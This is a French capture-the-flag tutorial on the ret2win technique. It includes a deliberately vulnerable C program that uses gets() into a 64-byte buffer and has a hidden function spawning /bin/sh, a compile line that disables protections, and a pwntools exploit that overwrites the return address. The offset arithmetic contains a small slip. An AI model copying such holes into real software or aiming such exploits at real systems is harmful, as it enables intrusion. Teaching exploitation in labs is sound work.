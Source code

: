 
***Définition:*** Un ret2Win est une sorte de challenge dans lequel le but est d'appeler une fonction qui va nous permettre d'avoir le flag lors d'un CTF. Il s'agit donc du détournement d'un programme afin d'appeler une fonction cachée

***Théorie***: Le ret2win consiste à exploiter un Buffer Overflow et donc d'écraser l'adresse de retour avec celle de la fonction qui nous permet de flag soit de gagner 

***Exemple***: 

```c
#include <pty.h>
#include <stdio.h>
#include <string.h>
#include <stdlib.h>

void diagnostic_systeme() {
    char statut[32] = "Système : OK\n";
    printf("%s", statut);
}

void nettoyage_temporaire() {
    printf("Nettoyage des fichiers temporaires ...\n");
    system("echo 'Suppression des fichiers temporaires terminée.'");
}

void mise_a_jour_systeme() {
    printf("Vérification des mises à jour...\n");
    printf("Aucune mise à jour disponible.\n");
}

void redemarrage_systeme() {
    printf("Redémarrage du système en cours...\n");
}

void vuln() {
    char buffer[64];
    printf("Veuillez entrer le journal de maintenance :\n");
    gets(buffer); 
    printf("Journal enregistré : %s\n", buffer);
}

void menu_maintenance() {
    char choix[4]; 
    printf("\n=== Menu de Maintenance ===\n");
    printf("1. Diagnostic du système\n");
    printf("2. Nettoyage des fichiers temporaires\n");
    printf("3. Mise à jour du système\n");
    printf("4. Redémarrer le système\n");
    printf("5 Ajouter un journal de maintenance\n");
    printf("Choisissez une option : ");
    fgets(choix, sizeof(choix), stdin); 

    switch (atoi(choix)) { 
        case 1:
            diagnostic_systeme();
            break;
        case 2:
            nettoyage_temporaire();
            break;
        case 3:
            mise_a_jour_systeme();
            break;
        case 4:
            redemarrage_systeme();
            break;
        case 5:
            vuln();
            break;
        default:
            printf("Option invalide.\n");
    }
}


void fonction_secrete() {
    char *const args[] = {"/bin/sh", NULL};
    execve("/bin/sh", args, NULL);  
}


int main() {
    printf("=== Outil de Maintenance PC ===\n");
    printf("Bienvenue dans le programme de maintenance veuillez choisir une option.\n");
    menu_maintenance();
    printf("Fin du programme.\n");
    return 0;
}
```


Compiler avec : 
`gcc -o overflow -fno-stack-protector -z execstack -no-pie -Wno-implicit-function-declaration overflow.c`

Ce qui nous montre qu'aucune protection n'est activé. 

Pour exploiter ce challenge nous devrons donc faire plusieurs étape:
1. Comprendre ou est l'overflow 
	1. Trouver l'offset de l'overflow
2. Comprendre ce que fait la fonction cacher (Celle qui n'est pas appelé)
	1. Trouver l'adresse de la fonction qui nous permettra d'avoir le flag
3. Construire un exploit permettant d'écraser l'adresse de retour afin d'appelé la fonction caché

	***Information de l'exemple*** :
		1. Notre fonction cacher se nomme `fonction_secrete`
		2. L'overflow se trouve dans la fonction  vuln sur le buffer de 64 bytes:
		3. On constate que la fonction cacher appelle /bin/sh qui permet de trigger un shell
		4. On se rend aussi compte que le choix vulnérable dans le menu est le choix 5 puisqu'il appelle notre fonction vulnérable

***Exploitation***:
	Pour trouver l'adresse:
			`nm overflow | grep fonction_secrete`
					Résultat: `00000401417 T fonction_secrete	
	Pour trouver l'offset soit le nombre de caractère pour provoquer l'overflow nous pouvons,
		effectuer un  simple calcul 64 + 8 soit 64, la taille du buffer + la taille d'un registre  

Exploit Final:
```python
from pwn import *

context.arch = 'amd64'
context.log_level = 'debug'
context.terminal = ['tmux', 'splitw', '-h']

def main():
    # Connexion au programme
    p = remote("127.0.0.1", 1337)
    
    p.sendline(b'5')

    offset = 72  
    payload = b'A' * offset
    payload += p64(0x401417)
    
    p.sendline(payload)
    p.interactive()

if __name__ == '__main__':
    main()
```
